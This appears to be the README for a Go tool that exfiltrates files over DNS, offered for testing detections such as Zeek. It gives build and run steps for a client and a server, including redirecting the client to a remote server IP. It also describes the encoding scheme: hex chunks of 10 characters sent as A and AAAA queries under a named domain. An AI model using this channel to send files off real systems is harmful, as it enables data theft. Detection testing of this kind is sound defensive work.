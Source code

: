# DNS Exfil Test Tool

This is a very basic file exfiltration tool that uses DNS A and AAAA records to exfiltrate files. This is a simple tool to easily test for detections for file exfiltration via DNS. The client sends the specified file as both A and AAAA requests, and currently the server responds just to A record requests with a bogus IP response. If Bro (Zeek) is being used, this tool should flag for anomalous dns traffic.

----------------------

To Use: **Server Side**
1. > cd dns-exfil-test/server 
2. > go mod init server/v2
3. > go get github.com/miekg/dns
4. > go build
5. > ./server

To Use: **Client Side**
1. > cd dns-exfil-test/client 
2. > sed -i -e 's|127.0.0.1|[SERVER_IP]|g' go-dnsclient.go
3. > go mod init dns-exfil-text/client
4. > go build
5. > ./client [file_to_send]


- the client will then read the contents of the file, hex encode it, and send it in 10 character chunks as A record requests. The format of each request is:
[10 hex encoded characters].macconsultants.com

- Once done the server will take all of the hex encoded data, combine, and unhexlify it to a file as ASCII in the same directory. The output file is called outfile.

- The server will not indicate when done but the client does. Once the client says it is done, you can kill the server and view the contents of outfile.

- You will need to rename the outfile if you want to send multiple files.

----------------------

***Example Execution:***

**Client**

![Image](client.png)

**Server**

![Image](server.png)


